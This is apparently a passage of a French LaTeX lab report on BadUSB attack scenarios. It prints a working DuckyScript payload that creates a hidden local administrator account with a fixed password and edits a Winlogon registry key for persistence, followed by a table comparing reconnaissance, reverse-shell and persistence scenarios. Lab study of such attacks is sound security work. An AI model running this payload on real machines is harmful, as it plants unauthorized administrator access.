 \documentclass[12pt,a4paper]{report}
\begin{document}
\section{Scénario 3 -- Persistance par création d'un compte administrateur}

\subsection{Description}

Ce scénario illustre la création d'un compte local avec des privilèges administrateur pour maintenir un accès persistant à la machine cible.

\begin{lstlisting}[caption={Payload DuckyScript -- création d'un compte persistant}, label=lst:persistence]
REM ===================================================
REM  BadUSB Demo - Creation de compte persistant
REM  STRICTEMENT RESERVE AUX TESTS EN LABO
REM ===================================================

DELAY 1000
GUI r
DELAY 400
STRING cmd /c "net user HelpDesk P@ssw0rd2026! /add ^
    && net localgroup administrators HelpDesk /add ^
    && reg add HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon ^
    /v AutoAdminLogon /t REG_SZ /d 0 /f"
ENTER
DELAY 500
\end{lstlisting}

\section{Comparaison des scénarios}

\begin{table}[H]
  \centering
  \caption{Comparaison des scénarios d'attaque}
  \label{tab:scenarios}
  \begin{tabularx}{\linewidth}{l X c c c}
    \toprule
    \textbf{Scénario}   & \textbf{Objectif}           & \textbf{Détection AV} & \textbf{Priv.} & \textbf{Durée} \\
    \midrule
    Collecte d'infos    & Reconnaissance               & Faible                & User           & 5~s   \\
    Reverse Shell       & Contrôle à distance          & Moyenne               & User           & 8~s   \\
    Persistance         & Accès durable                & Faible                & Admin          & 3~s   \\
    \bottomrule
  \end{tabularx}
\end{table}
\end{document}
